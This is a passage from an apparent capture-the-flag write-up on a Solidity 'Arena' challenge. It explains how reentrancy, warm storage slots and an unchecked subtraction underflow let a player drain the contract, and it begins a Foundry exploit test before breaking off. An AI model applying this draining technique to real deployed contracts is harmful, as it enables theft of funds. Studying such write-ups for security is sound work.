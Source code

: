 That first call happens **before** we enter `withdraw`, so when the fallback fires the slot is already in the EVM’s access-list. Inside the 5000-gas stipend we can afford a second `transfer` because the expensive cold surcharge is gone.

### Re-entrancy and unchecked math

`withdraw`:

```solidity
payable(msg.sender).call{value: amount, gas: 5000}("");
unchecked { balanceOf[msg.sender] -= amount; }
```

Sequence of events:

1. `withdraw` sees `balanceOf[player]` high enough, sends `amount` ether and only <5000 gas (explained in previous point).
2. Fallback triggers `transfer(address(0),1)` which **reduces** our arena balance by one while still inside the external call (both address 0 and our balance slots are warmed).
3. Control returns to `withdraw`; it executes the unchecked subtraction using the *already-decremented* balance.
4. Result underflows to `(balance - 1) - amount`, because we asked `amount` with `balance`. Our balance is now effectively max-uint.
5. A second call to `withdraw` with `address(arena).balance` as the parameter empties the contract, easily pushing the EOA over the 500-ETH win line.

### Putting it all together

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console, Vm} from "forge-std/Test.sol";
import "../src/Challenge.sol";
import "../src/Arena.sol";

contract Exploit is Test {
    Challenge public challenge;
    Arena public arena;
    Randomness public randomness;

    address system = makeAddr("system");
    address player;
    uint256 playerPk;

    uint256 internal _nonce;

    modifier runAsPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
    }

    modifier solved() {
        _;
        _isSolved();
    }

    /**
     * setup chall' locally
     */
    function setUp() public {
        (player, playerPk) = makeAddrAndKey("player");

        startHoax(system);
        payable(player).transfer(8 ether);
```